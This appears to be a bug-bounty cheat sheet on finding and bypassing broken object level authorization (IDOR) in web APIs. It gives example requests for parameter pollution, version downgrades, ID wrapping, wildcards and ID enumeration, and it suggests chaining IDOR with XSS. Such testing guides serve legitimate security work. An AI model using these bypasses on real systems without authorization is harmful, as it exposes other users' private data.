 ## Testing for IDOR/Broken object level authorization:

Difficulty: Easy 

Tips: Don't blindly test for changing numbers till you get PII, tools can do this for you

**Finding IDOR Attack Vectors Ideas:**

1. What  do they use for authorization?(JWT, API Keys, cookies, tokens) Tip: Find this out by replacing high privaledge authorization with lower privaledge authorization and seeing what the server responds with
2. Understand how they use ID's, hashes, and their API. Do this by looking at the API Documentations if they have one.

***Every time you see a new API endpoint that receives an object ID from the client, ask yourself the following questions:***

- Does the ID belong to a private resource? (e.g /api/user/123/news vs  /api/user/123/transaction)
- What are the IDs that belong to me?
- What are the different possible roles in the API?(For example — user, driver, supervisor, manager)

## Bypassing Object Level Authorization:

- Add parameters onto the endpoints for example, if there was

```html
GET /api_v1/messages --> 401
vs 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

- HTTP Parameter pollution

```html
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

- Add .json to the endpoint, if it is built in Ruby!

```html
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

- Test on outdated API Versions

```html
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

* Wrap the ID with an array.

```html
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

* Wrap the ID with a JSON object:

```html
{“id”:111} --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

* JSON Parameter Pollution:

```html
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

- Try to send a wildcard(*) instead of an ID. It’s rare, but sometimes it works.
- If it is a number id, be sure to test through a large amount of numbers, instead of just guessing
- If endpoint has a name like /api/users/myinfo, check for /api/admins/myinfo
- Replace request method with GET/POST/PUT
- Use burp extension autorize
- If none of these work, get creative and ask around!

## Escalating/Chaining with IDOR's Ideas:

1.  Lets say you find a low impact IDOR, like changing someone elses name, chain that with XSS and you have stored XSS!
2. If you find IDOR on and endpoint, but it requires UUID, chain with info disclosure endpoints that leak UUID, and bypass this!
3. If none of these work, get creative and ask around!

### Reference
[https://twitter.com/swaysThinking/status/1301663848223715328](https://twitter.com/swaysThinking/status/1301663848223715328)

### Reports (Hackerone)

- [IDOR to delete images from other stores](https://hackerone.com/reports/404797)
- [IDOR in changing shared file name](https://hackerone.com/reports/547663)
- [User uploaded portfolio files can be accessed by any user even after deleted](https://hackerone.com/reports/300179)
- [IDOR and statistics leakage in Orders](https://hackerone.com/reports/544329)

### Author
* [@harsha0x01](https://twitter.com/harsha0x01)
* [@klaus](https://twitter.com/klaus_dev)
